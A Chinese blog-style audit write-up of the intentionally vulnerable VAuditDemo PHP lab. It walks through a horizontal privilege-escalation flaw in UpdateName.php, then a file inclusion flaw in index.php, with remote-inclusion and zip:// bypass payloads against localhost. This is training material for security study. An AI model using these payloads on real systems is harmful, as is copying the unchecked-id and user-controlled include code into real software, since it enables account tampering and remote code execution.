 ### 目录 ###
- - -
-  说明
-  审计过程
-  总结

### 说明 ###
- - -
V靶场全名(VAuditDemo_Debug),我这里简称V

### 审计过程 ###
- - -
这是我之前审计过的地方（我扔博客里了，这里就不在重复）：

<b>越权的发现</b>
代码路径：
```
\VAuditDemo-master\VAuditDemo_Debug\user\UpdateName.php
```
代码如下：
```php
<?php
include_once('../sys/config.php');
if (isset($_POST['submit']) && !empty($_POST['username']) ) { /*判断是否存在POST请求的submit和username参数*/

	if (strlen($_POST['username'])>16) { /*判断用户名是否长过16位*/
		$_SESSION['error_info'] = '用户名過長（用戶名長度<=16）';
		header('Location: edit.php');
		exit;
	}

	$clean_username = clean_input($_POST['username']);
	$clean_user_id = clean_input($_POST['id']);
	
	//判断用户名已是否存在
	$query = "SELECT * FROM users WHERE user_name = '$clean_username'"; /*b不存在SQL注入*/
    $data = mysql_query($query, $conn);
	if (mysql_num_rows($data) == 1) {
		$_SESSION['error_info'] = '用户名已存在';
		header('Location: edit.php');
		exit;
	}
	
	$query = "UPDATE users SET user_name = '$clean_username' WHERE user_id = '$clean_user_id'"; /*b不存在SQL注入*/
	mysql_query($query, $conn) or die("update error!");
	mysql_close($conn);
	//刷新缓存
	$_SESSION['username'] = $clean_username;
	header('Location: edit.php');
}
else {
	not_find($_SERVER['PHP_SELF']);
}

/*
1.先判断是否有POST请求
2.判断新的用户名是否长过16位
3.判断用户名是否存在
4.更新数据库名

PS：少了检测请求的ID是否等于用户的id，也就是说通过修改这个ID就能达到修改别的用户的名称实现平行越权
*/
?>
```
实验：
```
第一个用户：admins 密码：admin
第二个用户：我喜欢你 密码：111111
```
使用我喜欢你这个用户来改admins用户的用户名：
![kdXEex.png](https://s2.ax1x.com/2019/02/12/kdXEex.png)

修改前的数据库：
![kdXNtS.png](https://s2.ax1x.com/2019/02/12/kdXNtS.png)

Burp抓包重放：
![kdXdpQ.png](https://s2.ax1x.com/2019/02/12/kdXdpQ.png)

修改后的数据库：
![kdXwlj.png](https://s2.ax1x.com/2019/02/12/kdXwlj.png)

<b>文件包含漏洞</b>
在审计别的洞的时间用burp扫了一波，发现index.php居然有文件包含= =
burp扫描配置如下：
![kwVgN4.md.png](https://s2.ax1x.com/2019/02/12/kwVgN4.md.png)

![kwV24J.png](https://s2.ax1x.com/2019/02/12/kwV24J.png)

文件包含：
![kwVIu6.png](https://s2.ax1x.com/2019/02/12/kwVIu6.png)

index.php
```php
<?php 
require_once('sys/config.php');
require_once('header.php');
?>
<div class="row">
	<?php
	/* Include */
	if (isset($_GET['module'])){
		include($_GET['module'].'.inc');/*指定后缀*/
	}else{
	?>
	<div class="jumbotron" style="text-align: center;">
		<h1><b>VAuditDemo</b></h1>
		<p>一个简单的Web漏洞演练平台</p><br />
	</div>
	<div class="col-lg-12">
		<h2>用於演示講解PHP基本漏洞</h2>
		<p></p>
	</div>
	<?php
	}
	?>
</div>
		
<?php
require_once('footer.php');
?>
```
绕过方法有两种：
```
1.远程文件包含 要求：allow_url_fopen开启
2.zip协议  要求：zip协议没被禁止,知道绝对路径
```
远程包含payload如下：
```
http://127.0.0.1/index.php?module=http://127.0.0.1/1.txt?
```
![kwVvvt.png](https://s2.ax1x.com/2019/02/12/kwVvvt.png)

ZIP协议如下：
```
http://127.0.0.1/index.php?module=zip://I:\phpstudy\PHPTutorial\WWW\VAuditDemo-master\VAuditDemo_Debug\demo.zip%23
```
![kwZVvq.png](https://s2.ax1x.com/2019/02/12/kwZVvq.png)

压缩包图片：
![kwZmrV.png](https://s2.ax1x.com/2019/02/12/kwZmrV.png)

这里有个坑：就是你用zip协议的时候压缩包里面文件名一定要一样不然不行的，如果他指定后缀名
你就两个后缀名 比如：
```
指定后缀为：dd.txt 那么你压缩包里面就要放个dd.txt
指定后缀名为：.inc和上面一样那么压缩包放个.inc.inc
```

